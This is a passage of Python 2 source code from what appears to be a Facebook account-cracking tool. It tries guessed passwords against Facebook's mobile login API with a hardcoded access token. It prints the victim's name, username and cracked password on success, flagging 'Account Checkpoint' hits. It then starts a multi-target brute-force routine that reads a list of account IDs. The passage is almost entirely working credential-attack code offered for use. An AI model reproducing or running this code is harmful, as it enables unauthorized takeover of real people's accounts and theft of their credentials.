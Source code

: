 													print "\033[1;91m[+] \033[1;92mFound"
													print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
													print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
													print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
													raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
													menu_hack()
												else:
													if 'www.facebook.com' in y["error_msg"]:
														print "\033[1;91m[+] \033[1;92mFound"
														print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
														print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
														print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
														print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
														raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
														menu_hack()
													else:
														pz7 = "sayang123"
														data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														y = json.load(data)
														if 'access_token' in y:
															print "\033[1;91m[+] \033[1;92mFound"
															print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
															print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
															print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz7
															raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
															menu_hack()
														else:
															if 'www.facebook.com' in y["error_msg"]:
																print "\033[1;91m[+] \033[1;92mFound"
																print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
																print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
																print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
																print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz6
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
															else:
																print "\033[1;91m[!] Sorry, failed to open the target password :("
																print "\033[1;91m[!] try it another way."
																raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
																menu_hack()
	except KeyError:
		print "\033[1;91m[!] Terget not found"
		raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
		menu_hack()
										
								
##### Multi Brute Force #####
##### CRACK ####
def crack():
	global idlist,passw,file
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('reset')
	print logo
	idlist = raw_input('\033[1;91m[+] \033[1;92mFile ID  \033[1;91m: \033[1;97m')
	passw = raw_input('\033[1;91m[+] \033[1;92mPassword \033[1;91m: \033[1;97m')